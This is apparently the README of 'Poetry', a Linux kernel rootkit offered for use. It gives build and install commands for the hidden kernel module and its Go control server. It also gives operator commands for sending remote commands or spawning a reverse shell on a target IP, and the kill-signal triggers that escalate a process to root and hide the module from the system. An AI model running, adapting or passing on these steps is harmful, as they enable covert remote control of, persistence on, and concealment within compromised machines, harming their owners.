 ![nil is goated](https://img.shields.io/badge/nil-goated-green)
# Poetry
This is a Linux kernel module rootkit made for >=5.X. It features privilege escalation, module hiding, and RCE/reverse shell capabilities. 

## Server Setup
### Building
#### If not on Linux:
Docker must be installed in order to compile the server binary. 
```sh
cd srv/
make # compile the go binary
ls out/ # compiled binary will be in the out/ directory
```
#### If on Linux:
You can utilize the method above if you have Docker installed, or you can use the method below if you have Golang installed. 
```sh
cd srv/

# compile the server binary
go build
```

The compiled binary will be called: `poetry`

### Usage
Copy the compiled binary to the host system. Run the following commands to interact with the target:
```sh
export IFACE=<ethernet_interface> # set interface env var
sudo -E ./poetry -t <target_ip> -s # -s attempts to spawn a reverse tcp shell
sudo -E ./poetry -t <target_ip> -c "<command>" # -c sends a single command through udp. no output
```

## Kernel Module
### Tested On:
- 5.4.0
- 5.13.0
### Building
```sh
# install needed packages
apt update
apt install build-essential \
            checkinstall \
            linux-headers-$(uname -r) \
            -y 

cd lkm/

# comment out the printk debug statements
sed -i 's/debug=1/debug=0/g' poet.c 

# compile the kernel module with the corresponding headers
make 
```
The compiled LKM will be: `poet.ko`
### Installing
```sh
# install the kernel module on the system
sudo insmod poet.ko 
```

#### Privilege Escalation + Module Hiding
```sh
kill -35 0 # escalate to root
kill -36 0 # hide poet module
kill -37 0 # unhide poet module
```

## References
TODO add refs